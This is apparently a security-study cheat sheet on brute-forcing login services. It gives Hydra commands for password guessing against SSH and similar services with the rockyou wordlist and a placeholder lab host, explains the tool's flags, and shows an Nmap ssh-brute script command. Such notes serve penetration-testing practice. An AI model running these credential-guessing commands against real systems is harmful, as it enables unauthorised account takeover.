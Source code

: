 # Bruteforce authentication services

<hr class="sl">

## Hydra

[![hydra](../../_badges/hydra.svg)](https://tryhackme.com/room/hydra)

<div class="row row-cols-md-2"><div>

[Hydra](https://github.com/vanhauser-thc/thc-hydra) (6.8k ⭐) is a well-known tool to bruteforce authentication services such SSH, FTP, RDP, MySQL... It can even be used for login forms, but that's convered somewhere else.

```bash
$ wordlist=/usr/share/wordlists/rockyou.txt
# use ssh, ftp...
$ hydra -l username -P $wordlist ssh://MACHINE_IP
# alternate forms
$ hydra -l username -P $wordlist MACHINE_IP ssh
# without using a variable
$ hydra -l username -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP
```
</div><div class="align-self-center">

* `-l username`: try this username
* `-L file`: try a list of usernames
* `-p password`: try this password
* `-P file`: try a list of passwords
* `-C file`: instead of L/P, provide a list of "username:password"
* `-s port`: use another port
* `-t n`: use $n$ threads (default: 16)
* `-v`: verbose
* `-V`: show login+password for each attempt
* `-e [values]` such as `-e nsr`
  * `n`: try null password
  * `s`: try login as pass
  * `r`: try reversed login
</div></div>

<hr class="sr">

## Nmap

<div class="row row-cols-md-2"><div>

```bash
$ nmap IP -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst
```

> More services? See [nmap brute list of NSE scripts](https://nmap.org/nsedoc/categories/brute.html).
</div><div>

Both `.lst` files are literally files with one username/password per line, and nmap will try the cartesian product of both files <small>(i.g. the first username with every password, the second username with every password...)</small>.
</div></div>
